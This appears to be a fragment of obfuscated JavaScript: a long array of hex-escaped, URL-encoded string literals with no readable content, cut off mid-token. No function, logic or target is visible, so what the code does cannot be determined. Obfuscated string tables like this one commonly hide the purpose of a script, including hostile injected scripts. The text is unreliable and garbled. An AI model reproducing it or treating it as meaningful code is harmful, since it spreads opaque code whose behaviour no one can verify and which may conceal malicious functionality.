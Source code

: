 78\x5a\x66\x48\x79\x4e\x4b%27,%27\x61\x78\x46\x64\x4d\x57%27,%27\x42\x30\x66\x6a\x72\x33\x75%27,%27\x43\x67\x39\x5a\x44\x67\x65%27,%27\x6d\x6d\x6f\x33\x57\x50\x74\x63\x4b\x38\x6f\x44%27,%27\x64\x72\x6c\x63\x4f\x53\x6b\x66\x44\x61%27,%27\x43\x4e\x44\x38\x6d\x47%27,%27\x65\x5a\x38\x57\x78\x38\x6f\x55%27,%27\x57\x37\x56\x64\x4e\x64\x33\x64\x4d\x4b\x75%27,%27\x44\x76\x4b\x72\x71\x38\x6f\x73%27,%27\x43\x4a\x4f\x47\x79\x4d\x57%27,%27\x79\x33\x76\x5a\x44\x67\x38%27,%27\x46\x61\x70\x63\x4d\x53\x6b\x70\x46\x61%27,%27\x6d\x4a\x69\x47\x6e\x59\x34%27,%27\x69\x63\x61\x47\x69\x68\x75%27,%27\x57\x35\x37\x63\x48\x32\x4e\x63\x4d\x48\x30%27,%27\x73\x77\x31\x48\x7a\x32\x75%27,%27\x79\x4d\x76\x4c\x6c\x77\x4b%27,%27\x77\x62\x48\x4d\x70\x53\x6f\x66%27,%27\x57\x51\x6a\x7a\x57\x35\x47\x32\x57\x52\x30%27,%27\x42\x32\x34\x4f\x42\x4d\x65%27,%27\x79\x77\x31\x4c\x6f\x49\x61%27,%27\x57\x34\x6e\x77\x6f\x38\x6f\x50\x75\x57%27,%27\x57\x52\x78\x63\x51\x76\x6d\x73\x6f\x71%27,%27\x79\x32\x54\x4e\x43\x4d\x38%27,%27\x69\x66\x6e\x57\x42\x32\x38%27,%27\x73\x67\x76\x50\x7a\x32\x47%27,%27\x6e\x63\x6a\x44\x6c\x67\x34%27,%27\x76\x78\x6e\x4c\x43\x4c\x61%27,%27\x57\x52\x62\x6a\x57\x51\x42\x64\x4e\x38\x6f\x62%27,%27\x57\x52\x33\x64\x4c\x43\x6f\x56\x57\x52\x7a\x37%27,%27\x44\x73\x64\x64\x51\x38\x6f\x45\x78\x61%27,%27\x6d\x65\x7a\x31\x57\x4f\x37\x63\x54\x47%27,%27\x79\x67\x64\x64\x54\x74\x4a\x63\x4d\x61%27,%27\x77\x4d\x61\x45\x76\x67\x34%27,%27\x70\x53\x6b\x73\x57\x36\x37\x63\x50\x38\x6f\x4e%27,%27\x57\x35\x4e\x63\x53\x53\x6f\x70\x57\x50\x52\x64\x4d\x57%27,%27\x57\x36\x33\x64\x4f\x30\x64\x63\x4b\x77\x53%27,%27\x44\x67\x74\x64\x55\x6d\x6f\x64\x75\x47%27,%27\x42\x53\x6f\x48\x57\x51\x70\x64\x51\x43\x6f\x68%27,%27\x57\x37\x46\x63\x55\x30\x75\x65\x72\x71%27,%27\x73\x30\x79\x6c\x78\x38\x6f\x72%27,%27\x42\x59\x62\x57\x42\x32\x71%27,%27\x79\x78\x6e\x30\x74\x67\x38%27,%27\x57\x52\x50\x52\x57\x51\x70\x64\x4b\x38\x6f\x58%27,%27\x62\x48\x48\x54\x57\x36\x58\x36%27,%27\x57\x34\x6d\x38\x63\x43\x6f\x69\x44\x61%27,%27\x6d\x74\x71\x47\x6d\x4b\x47%27,%27\x42\x53\x6b\x4f\x57\x4f\x46\x63\x50\x6d\x6b\x6f%27,%27\x44\x77\x72\x4c\x42\x4e\x71%27,%27\x69\x63\x62\x49\x79\x77\x6d%27,%27\x57\x51\x6d\x61\x57\x37\x39\x30\x57\x35\x43%27,%27\x57\x50\x6a\x55\x57\x4f\x56\x64\x50\x47\x65%27,%27\x57\x52\x4a\x64\x53\x66\x64\x64\x49\x68\x38%27,%27\x70\x53\x6f\x62\x57\x4f\x61\x7a\x68\x47%27,%27\x69\x67\x4c\x55\x79\x32\x57%27,%27\x41\x53\x6b\x50\x57\x35\x52\x63\x52\x6d\x6b\x75%27,%27\x6e\x4a\x47\x47\x6d\x74\x61%27,%27\x57\x52\x50\x56\x57\x51\x2f\x64\x48\x6d\x6b\x61%27,%27\x43\x32\x39\x59\x6f\x49\x61%27,%27\x6c\x4d\x75\x54\x45\x49\x34%27,%27\x57\x50\x50\x55\x57\x35\x64\x64\x56\x47\x53%27,%27\x61\x6d\x6f\x30\x57\x51\x37\x64\x54\x62\x75%27,%27\x6b\x38\x6b\x48\x57\x37\x78\x63\x50\x38\x6f\x68%27,%27\x67\x43\x6f\x65\x75\x47%27,%27\x45\x53\x6b\x31\x57\x37\x39\x31\x43\x71%27,%27\x62\x43\x6f\x35\x57\x36\x64\x63\x4c\x48\x4b%27,%27\x57\x35\x4b\x38\x62\x53\x6f\x6a\x43\x57%27,%27\x79\x61\x74\x63\x4c\x53\x6b\x64\x6c\x57%27,%27\x57\x4f\x5a\x64\x4e\x59\x42\x64\x49\x30\x4b%27,%27\x43\x32\x76\x30\x71\x78\x71%27,%27\x44\x66\x54\x30\x45\x78\x61%27,%27\x57\x51\x61\x54\x78\x43\x6b\x69\x6b\x47%27,%27\x76\x57\x72\x57\x57\x51\x30\x55%27,%27\x43\x68\x6a\x56\x7a\x68\x75%27,%27\x7a\x74\x53\x47\x7a\x4d\x38%27,%27\x44\x68\x6a\x50\x42\x71%27,%27\x69\x68\x44\x4f\x41\x78\x71%27,%27\x79\x78\x4b\x4f\x6e\x74\x61%27,%27\x57\x35\x66\x76\x57\x4f\x74\x63\x50\x64\x43%27,%27\x7a\x77\x6e\x30\x41\x77\x69%27,%27\x69\x5a\x43\x59\x7a\x4d\x79%27,%27\x73\x57\x57\x58\x57\x52\x39\x70%27,%27\x7a\x78\x69\x55\x42\x32\x43%27,%27\x78\x4d\x31\x53\x68\x43\x6b\x4e%27,%27\x42\x4d\x71\x49\x69\x68\x6d%27,%27\x61\x53\x6f\x36\x57\x51\x4f\x37\x6e\x71%27,%27\x57\x51\x7a\x71\x77\x6d\x6b\x42\x6b\x57%27,%27\x57\x37\x6c\x63\x48\x38\x6f\x31\x57\x52\x44\x51%27,%27\x57\x34\x39\x7a\x57\x50\x68\x63\x4a\x49\x4f%27,%27\x41\x77\x58\x64\x44\x78\x71%27,%27\x6e\x74\x61\x4c%27,%27\x44\x4d\x76\x59\x69\x68\x53%27,%27\x42\x53\x6b\x34\x57\x34\x68\x63\x50\x53\x6b\x69%27,%27\x75\x57\x58\x38\x6f\x38\x6f\x73%27,%27\x6f\x38\x6f\x6a\x57\x34\x76\x4c\x6c\x47%27,%27\x79\x53\x6b\x30\x57\x34\x46\x63\x52\x6d\x6b\x76%27,%27\x57\x51\x48\x68\x57\x50\x79%27,%27\x66\x32\x4e\x64\x4e\x5a\x44\x54%27,%27\x42\x72\x58\x53\x57\x52\x34\x2f%27,%27\x57\x37\x74\x63\x55\x4c\x79\x6c%27,%27\x44\x32\x4c\x4b\x7a\x32\x75%27,%27\x6e\x4a\x65\x30\x6e\x64\x65\x32\x71\x30\x50\x63\x75\x67\x66\x56%27,%27\x79\x32\x48\x4c\x79\x32\x53%27,%27\x71\x38\x6f\x70\x74\x6d\x6b\x46\x57\x50\x75%27,%27\x70\x47\x4f\x47\x69\x63\x61%27,%27\x45\x33\x64\x64\x51\x43\x6f\x42\x71\x47%27,%27\x70\x67\x50\x78\x57\x36\x56\x64\x56\x61%27,%27\x69\x63\x61\x47\x69\x64\x79%27,%27\x7a\x4d\x39\x55\x44\x63\x30%27,%27\x57\x36\x35\x73\x57\x35\x5a\x63\x53\x43\x6f\x51%27,%27\x6c\x78\x6e\x4c\x42\x67\x75%27,%27\x6e\x6d\x6f\x6a\x57\x35\x44\x35%27,%27\x7a\x38\x6b\x37\x57\x34\x56\x63\x52\x6d\x6b\x6c%27,%27\x42\x75\x35\x48\x42\x77\x75%27,%27\x57\x50\x66\x54\x57\x50\x42\x63\x52\x4b\x57%27,%27\x41\x71\x2f\x63\x52\x53\x6f\x36\x6a\x61%27,%27\x42\x4d\x66\x30\x41\x77\x38%27,%27\x6d\x4c\x6c\x64\x48\x4d\x48\x68%27,%27\x76\x4b\x44\x73\x7a\x78\x61%27,%27\x57\x36\x61\x77\x57\x34\x4a\x63\x4d\x38\x6f\x34%27,%27\x44\x32\x39\x59\x41\x32\x75%27,%27\x57\x50\x35\x31\x57\x52\x56\x63\x4b\x4a\x75%27,%27\x57\x37\x76\x45\x57\x51\x62\x74\x57\x35\x34%27,%27\x6d\x6d\x6b\x56\x72\x32\x56\x63\x48\x61%27,%27\x70\x6d\x6b\x4b\x74\x4e\x68\x64\x54\x71%27,%27\x42\x32\x58\x31\x42

